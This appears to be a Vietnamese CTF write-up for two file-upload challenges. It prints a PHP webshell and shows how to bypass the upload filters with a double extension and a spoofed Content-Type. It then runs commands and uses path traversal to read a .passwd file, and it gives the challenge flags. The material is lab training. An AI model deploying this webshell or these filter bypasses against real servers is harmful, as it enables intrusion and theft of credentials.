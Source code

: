 Bài yêu cầu upload file .php để lấy password trong file .passwd ở thư mục root của trang web

Tạo 1 file php webshell như sau:

`<?php system($_GET[command]); ?>`

![image](https://user-images.githubusercontent.com/80137840/222900615-62cc363d-3a2b-40c9-a35c-02cfa6682976.png)

Nhận được response `Wrong file extension !`, tức là ta phải upload file có extension hợp lệ. Double extensions file thành `.php.jpg` thì upload thành công

![image](https://user-images.githubusercontent.com/80137840/222900641-6fde1529-e8a8-4e9c-9772-14160feb5c64.png)

Và file được upload ở đường dẫn: `./galerie/upload/be9b9221db0c706156915743327be19f/shell.php.jpg` 

Truy cập vào đường dẫn này với param `command=ls+-la` để liệt kê tất cả các file trong thư mục hiện tại

![image](https://user-images.githubusercontent.com/80137840/222900847-4444f60f-628c-44a6-9ed9-3b2b2e400faa.png)

Sử dụng path traversal để list các file trong mục cha, ta tìm thấy file .passwd trong path `../../../`. Tiến hành cat file này lấy flag

![image](https://user-images.githubusercontent.com/80137840/222900947-7f76d0a5-def0-4de5-bc88-f455199952e2.png)

Submit flag: `Gg9LRz-hWSxqqUKd77-_q-6G8`

![image](https://user-images.githubusercontent.com/80137840/222897348-5ad7b851-155d-49a1-8f3b-f50c9ff17651.png)


## File-upload-MIME-type

![image](https://user-images.githubusercontent.com/80137840/222898408-e84efc46-613a-4a57-867f-7358bd813eb3.png)

Bài này cũng yêu cầu upload file .php để lấy password trong file .passwd

Upload PHP webshell: `<?php system($_GET[command]); ?>`

![image](https://user-images.githubusercontent.com/80137840/222901030-2a4751d2-ed70-43e9-94cc-2bf0b536f352.png)

Nhận được response `Wrong file type !`, tức là ta phải upload file có Content-Type hợp lệ. Sửa Content-Type file thành `image/jpeg` thì upload thành công

![image](https://user-images.githubusercontent.com/80137840/222901046-a9f921f5-c186-409c-916a-7754d784fccd.png)

Đến đây ta cần tìm xem file được upload ở đường dẫn nào. Show response in browser và thấy file được upload tại `/web-serveur/ch21/galerie/upload/e1d637faecd349ab0abeecbc2c947a95//shell.php`

Thêm param `command` để tìm file .passwd như bài trước

![image](https://user-images.githubusercontent.com/80137840/222901335-19fa9127-37bf-4488-bbdf-46d088aa5af8.png)

Submit flag: `a7n4nizpgQgnPERy89uanf6T4`

![image](https://user-images.githubusercontent.com/80137840/222901357-9c6db268-6600-46e0-b96d-8c9bf02fb8d7.png)
